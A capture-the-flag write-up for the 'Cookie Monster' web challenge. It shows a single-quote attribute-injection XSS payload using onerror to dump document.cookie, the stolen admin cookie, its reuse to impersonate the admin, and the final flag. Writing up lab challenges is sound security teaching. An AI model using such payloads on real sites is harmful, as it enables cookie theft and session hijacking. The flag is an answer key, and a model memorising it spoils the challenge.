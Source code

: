 # Cookie Monster
Display use of XSS to steal cookies

<i>Creator - @Platy</i>

## Category
Web

## Question
>Cookie monster has stolen my cookies again! And apparently, he learnt how to create a website to get more cookies! He is accepting nice images from users and running it on his image viewer using what he thinks is the best browser, Internet Explorer. Retrieve the cookie that he stole from me! Thanks!
>
>Connect via `http://web.chal.gryphonctf.com:17563` and `nc web.chal.gryphonctf.com 17564`

## Setup Guide
Run `sudo bash build.sh`

## Solution
Upon going on to the website, we can see a nice image viewer. Whatever you placed in the input field, the image will get displayed.

We can try to do some simple XSS by doing `<script>alert(1);</script>` but nothing interesting happens.

Doing `Ctrl-U`, we can see
```html
<h1>HeRe Is YoUr ImAgE!</h1>
<img src='&lt;script&gt;alert(1);&lt;/script&gt;' width="500">
<p><h2>Thank you for using image viewer</h2></p>
<p>Image source : &lt;script&gt;alert(1);&lt;/script&gt;</p>
```

The tags get filtered out. But what's this? The img source uses single quotes instead of double. Perhaps single quotes are not filtered out by `htmlentities()` as it is not the default option

Typing in a single quote and we get this
```html
<img src=''' width="500">
```
Success! Now we know that single quotes are not sanitised. Since this is `<img src>`, we can do `onerror` to run javascript if the image fails to load.

By doing that, we can do `document.write()` with `document.cookie` to view Cookie Monster's cookies.

Upon entering  `' onerror='document.write(document.cookie)`, we get
```html
<html>
  <head></head>
  <body>passwordzzzzz=1_4m_z3_4dm1n_0f_z15_5173_pl3453_n0_h4ck_d4nk</body>
</html>
```
Now we can go into the console of chrome and type `document.cookie="passwordzzzzz=1_4m_z3_4dm1n_0f_z15_5173_pl3453_n0_h4ck_d4nk"`

We can now enter and pretend to be cookie monster to get the flag.

### Flag
`GCTF{c_15_f0r_c00k13_4nd_c00k13_15_f0r_m3}`

